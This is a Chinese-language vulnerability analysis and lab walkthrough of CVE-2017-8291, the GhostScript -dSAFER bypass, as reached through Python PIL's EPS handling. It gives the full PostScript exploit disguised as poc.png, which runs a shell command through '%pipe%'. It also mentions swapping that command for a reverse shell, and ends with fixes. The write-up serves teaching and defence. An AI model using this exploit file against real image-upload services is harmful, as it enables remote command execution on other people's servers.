


# Python PIL 远程命令执行漏洞分析


## 1.&emsp;漏洞描述

* 漏洞描述：PIL在对 eps 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在dSAFER模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER模式Bypass漏洞的影响，产生命令执行漏洞。
* 漏洞编号：CVE-2017-8291
* 漏洞等级：高危
* 影响版本：GhostScript(version <= 9.21)

## 2.   漏洞简介  

**PIL** (Python Image Library) 应该是 Python 图片处理库中运用最广泛的，它拥有强大的功能和简洁的API。很多Python Web应用在需要实现处理图片的功能时，都会选择使用PIL。

PIL在对 eps 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在dSAFER模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER模式Bypass漏洞的影响，产生命令执行漏洞。

### 2.1  一个简单常见的Demo

```python
from PIL import Image
def get_img_size(filepath=""):
    '''获取图片长宽'''
    if filepath:
        img = Image.open(filepath)
        img.load()
        return img.size
    return (0, 0)
```

我们在 Demo 里调用了PIL的 `Image.open`, `Image.load` 方法加载图片，最后返回图片的长和宽。

```
In [2]: get_img_size('/tmp/images.png')
Out[2]: (183, 275)
```

## 3.&emsp;漏洞分析

### 3.1 Image.open 图片格式判断的问题

PIL在 `Image.open` 函数里面判断图片的格式，首先它调用 `_open_core` 函数， 在`_open_core`里面则是调用各个格式模块中的`_accept`函数，判断所处理的图片属于哪一个格式。

```python
def _open_core(fp, filename, prefix):
    for i in ID:
        try:
            factory, accept = OPEN[i]
            if not accept or accept(prefix):
                fp.seek(0)
                im = factory(fp, filename)
                _decompression_bomb_check(im.size)
                return im
        except (SyntaxError, IndexError, TypeError, struct.error):
            # Leave disabled by default, spams the logs with image
            # opening failures that are entirely expected.
            # logger.debug("", exc_info=True)
            continue
    return None

im = _open_core(fp, filename, prefix)
```

这里 `_accept(prefix)` 函数中的参数 prefix 就是图片文件头部的内容

```python
# PIL/GifImagePlugin.py
def _accept(prefix):
    return prefix[:6] in [b"GIF87a", b"GIF89a"]

# PIL/EpsImagePlugin.py
def _accept(prefix):
    return prefix[:4] == b"%!PS" or \
           (len(prefix) >= 4 and i32(prefix) == 0xC6D3D0C5)
```

可以发现PIL使用文件头来判断文件类型，也就是说即使我们用它处理一个以`.jpg`结尾的文件，只要文件内容以`%!PS`开头，那么PIL就会返回一个`PIL.EpsImagePlugin.EpsImageFile`对象，使用eps格式的逻辑去处理它。之后调用的load方法也是`EpsImageFile`里面的load方法。

### 3.2  Image.load 到 subprocess.check_call

真实的环境中，程序员可能不会刻意去调用`load()`方法，但是其实Image文件中几乎所有的功能函数都会调用到`load()`。在 PIL/EpsImagePlugin.py 文件内我们关注的调用链为: `load()` -> `Ghostscript()` -> `subprocess.check_call()`, 最后使用`subprocess.check_call`执行了 gs 命令。

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

最后其执行的命令为`gs -q -g100x100 -r72.000000x72.000000 -dBATCH -dNOPAUSE -dSAFER -sDEVICE=ppmraw -sOutputFile=/tmp/tmpi8gqd19k -c 0 0 translate -f ../poc.png`, 可以看到PIL使用了 dSAFER 参数。这个参数限制了文件删除,重命名和命令执行等行为,只允许 gs 打开标准输出和标准错误输出。而 `GhostButt CVE-2017-8291` 刚好就是 dSAFER 参数的bypass。

### 3.3  GhostButt CVE-2017-8291

该漏洞的详细的分析可以看 binjo 师傅的文章:[GhostButt - CVE-2017-8291利用分析](http://wiki.ioin.in/url/APWQ)，原先我复现和构造POC的时候花费了很多时间，后来看了这篇文章，给了我很多帮助。

这里我们用的poc和文章里面一样使用，也就是msf里面的poc:[poc.png](https://github.com/neargle/PIL-RCE-By-GhostButt/blob/master/poc.png)。虽然这里修改 eps 后缀为 png ，但其实文件内容确实典型的`eps`文件。截取部分内容如下:

```sh
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

... 省略

currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
```

我们需要构造的命令执行payload就插入在这里 : `(%pipe%touch /tmp/aaaaa)`。

## 4.&emsp;漏洞复现

### 4.1  环境搭建

1. 在oj平台中申请**Python PIL 远程命令执行漏洞**环境。
2. 环境申请成功，在浏览器中访问环境：



3. 访问url可以看到文件上传页面。程序只使用允许后缀为 png 的文件上传，并在上传成功之后使用PIL获取图片长宽。

### 4.2  漏洞POC利用

上传poc.png图片，图片源码：

```c
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def


0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for


/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put


buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put


currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```

上传图片


可以看到aaaaa文件被成功写入，命令成功执行。



同时，通过修改POC中的`%pipe%touch /tmp/aaaaa`为反弹shell命令可以达到反弹shell操作：


## 5.&emsp;修复方案

### 5.1 什么情况下我们的web服务会受到该漏洞影响

- 使用Python PIL库处理图片(应该是任意版本)
- 环境中有GhostScript(version <= 9.21)

### 5.2  如何修复？

一个是升级 GhostScript 版本。当然更新 PIL 的版本并不能解决问题，因为 pip 不会帮我们升级GhostScript。

另外在 Python 代码里面，如果我们的web程序不需要处理 eps 格式，除了对文件头进行判断排除 eps 文件之外，借用PIL自带的程序逻辑，也可以避免产生命令执行漏洞。PIL.Image会在 `init()` 里面加载 PIL 目录下的所有图片格式的处理方法。

```python
def init():
    global _initialized
    if _initialized >= 2:
        return 0

    for plugin in _plugins:
        try:
            logger.debug("Importing %s", plugin)
            __import__("PIL.%s" % plugin, globals(), locals(), [])
        except ImportError as e:
            logger.debug("Image: failed to import %s: %s", plugin, e)
    ...
```

但同时也为我们提供了preinit()方法，该方法只加载 Bmp, Gif, Jpeg, Ppm, Png，这五种常见图片格式的处理方法。只需在用`open`函数打开图片文件之前，使用 `preinit()`，并设置 `_initialized` 的值大于等于2，即可避免 Image 调用 GhostScript 去解析 eps 文件：

```python
Image.preinit()
Image._initialized = 2
```
